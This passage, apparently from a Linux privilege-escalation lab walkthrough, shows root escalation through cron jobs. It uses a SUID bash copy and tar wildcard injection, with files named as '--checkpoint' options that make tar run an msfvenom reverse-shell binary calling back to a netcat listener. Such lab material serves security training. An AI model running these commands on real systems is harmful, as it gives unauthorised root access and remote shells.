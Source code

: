 Make sure that the file is executable:
```sh
chmod +x /home/user/overwrite.sh
```

Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:
```sh
/tmp/rootbash -p
```

Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell.

# Cron Jobs - Wildcards
View the contents of the other cron job script:
```sh
cat /usr/local/bin/compress.sh
```

Note that the tar command is being run with a wildcard (```*```) in your home directory.
Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as 
part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:
```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file 
is executable:
```sh
chmod +x /home/user/shell.elf
```
Create these two files in /home/user:
```sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

When the tar command in the cron job runs, the wildcard (```*```) will expand to include these files. Since their filenames are valid tar command line 
options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect 
back to your netcat listener.
```sh
nc -nvlp 4444
```
Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:
```sh
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```
